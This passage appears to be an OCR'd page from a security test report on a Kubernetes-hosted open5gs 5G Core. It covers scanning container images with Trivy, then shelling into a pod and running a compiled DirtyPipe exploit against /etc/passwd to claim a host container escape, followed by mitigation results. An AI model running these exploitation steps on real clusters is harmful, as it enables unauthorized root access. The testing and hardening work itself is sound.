 
## Attack Scenario 8: Container Image Vulnerability Exploitation

### Objective
Scan 5G Core container images for known vulnerabilities and attempt exploitation for privilege escalation.

### Attack Procedure

**Step 1: Image Vulnerability Scanning**
```bash
# Extract image list
kubectl get pods -n open5gs -o jsonpath="{..image}" | tr -s '[[:space:]]' '\n' | sort -u

# Scan with Trivy
trivy image open5gs/upf:latest
trivy image open5gs/smf:latest
```

**Step 2: CVE Exploitation**
```bash
# Exploit CVE-2022-0847 (DirtyPipe) for container escape
kubectl exec -n open5gs -it my5gc-upf -- bash

# Compile and execute DirtyPipe exploit
gcc -o dirtypipe dirtypipe.c
./dirtypipe /etc/passwd 1 ootz:
# Successfully gained root access to host system
```

### Results

**Before Mitigation:**
```
⚠️ CONTAINER ESCAPE SUCCESSFUL
HIGH: CVE-2022-0847 (DirtyPipe) - Container escape to host
CRITICAL: CVE-2021-44228 (Log4Shell) - Remote code execution
MEDIUM: Multiple unpatched base image vulnerabilities

Container escape achieved - host filesystem access gained
```

**After Mitigation:**
```
✅ VULNERABILITIES ELIMINATED
No HIGH or CRITICAL vulnerabilities detected
Distroless base images implemented
All packages updated to latest patched versions
```

---

## Attack Scenario 9: ServiceAccount Token Abuse & Kubelet Access
